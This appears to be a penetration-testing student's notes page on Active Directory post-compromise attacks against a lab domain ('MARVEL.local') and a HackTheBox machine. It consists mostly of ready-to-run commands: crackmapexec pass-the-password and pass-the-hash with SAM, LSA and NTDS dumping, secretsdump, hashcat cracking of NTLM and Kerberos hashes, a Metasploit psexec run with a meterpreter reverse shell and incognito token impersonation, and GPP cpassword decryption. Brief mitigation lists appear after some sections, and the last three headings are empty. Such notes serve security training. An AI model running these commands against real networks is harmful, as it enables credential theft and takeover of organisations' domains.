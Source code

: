 # Post Compromise Attacks

## Pass the Password Attacks

#### crackmapexec

```bash
kali@kali:~/ctf/tcm/peh$ crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
# Dump the SAM hashes
--sam
# Dump the LSA secrets
--lsa
# Dump the NTDS.dit
--ntds
```

#### psexec

```bash
kali@kali:~/ctf/tcm/peh$ /usr/share/doc/python3-impacket/examples/psexec.py marvel/fcastle:Password1@192.168.57.142
```

## Dumping Hashes with secretsdump.py

#### secretsdump

```bash
kali@kali:~/ctf/tcm/peh$ /usr/share/doc/python3-impacket/examples/secretsdump.py marvel/fcastle:Password1@192.168.57.141
```

## Cracking NTLM Hashes with Hashcat

#### hashcat

```bash
kali@kali:~/ctf/tcm/peh$ hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 
```

## Pass the Hash Attacks

#### crackmapexec

```bash
kali@kali:~/ctf/tcm/peh$ crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <HASH> --local-auth
```

## Pass Attack Mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:

* Limit account re-use
  * Avoid re-using local admin password
  * Disable Guest and Administrator accounts
  * Limit who is a local administrator (least privilege)
* Utilize strong passwords
  * The longer the better
  * Avoid using common words
  * Long sentences
* Privilege Access Management (PAM)
  * Check out/in sensitive accounts when needed
  * Automatically rotate passwords on check out and check in
  * Limits pass attacks as hash/password is strong and constantly rotated

## Token Impersonation

### Overview

#### What are tokens?

* Temporary keys that allow you to access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

#### Two Types

* Delegate - Created for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attach a network drive or a domain logon script

### Token Impersonation with Incognito

#### Metasploit

```bash
msfconsole
use exploit/windows/smb/psexec
# Set RHOSTS, SMBDomain, SMBPass, and SMBUser; 
# set target 2; set payload windows/x64/meterpreter/reverse_tcp; set LHOST
run
# hashdump
# getuid
# sysinfo
load incognito
help
list_tokens -u
impersonate_token marvel\\administrator
shell
whoami
```

### Mitigation

#### Strategies

* Limit user/group token creation permissions
* Account tiering
* Local admin restriction

## Kerberoasting

### Overview

[https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)

#### Steps

1. Get SPNs, Dump Hash
   1. `python GetUserSPNs.py <DOMAIN/username:password> dc-ip <ip of DC> -request`
2. Crack that hash
   1. `hashcat -m 13100 kerberoast.txt rockyou.txt`

### Example

#### GetUserSPNs

```bash
GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
```

Copy the hash from the output and paste it into a text file.

#### hashcat

```bash
hashcat -m 13100 hashes.txt rockyou.txt
```

### Mitigation

#### Strategies

* Strong Passwords
* Least privileges

## GPP / cPassword Attacks

### GPP / cPassword Attacks Overview

Group Policy Preferences (GPP) AKA MS14-025

* Group Policy Preferences allowed admins to created policies using embedded credentials
* These credentials were encrypted and placed in a "cPassword"
* The key was accidentally released
* Patched in MS14-025, but doesn't prevent previous uses

Can check using `smb_enum_gpp` Metasploit module

#### Resource

[https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

### Abusing GPP

Example using Active on HackTheBox.

#### Part 1

1. Downloaded files from SMB
2. Found Groups.xml with `name-active.htb\SVC_TGS` and the `cpassword="<hash>"`
3. Execute `gpp-decrypt` \<hash>

#### Part 2

1. &#x20;Tried `psexec.py active.htb/svc_tgs:<password>@<IP>` but failed...
2. Then `GetUserSPNs.py active.htb/svc_tgs:<password> -dc-ip <IP> -request`
   1. Returns a service ticket which we can copy and crack
      1. hashcat -m 13100 hashes.txt rockyou.txt -O
3. Finally psexec.py active.htb/Administrator:\<password>@\<IP>

## URL File Attacks

## Mimikatz

## Golden Ticket Attacks
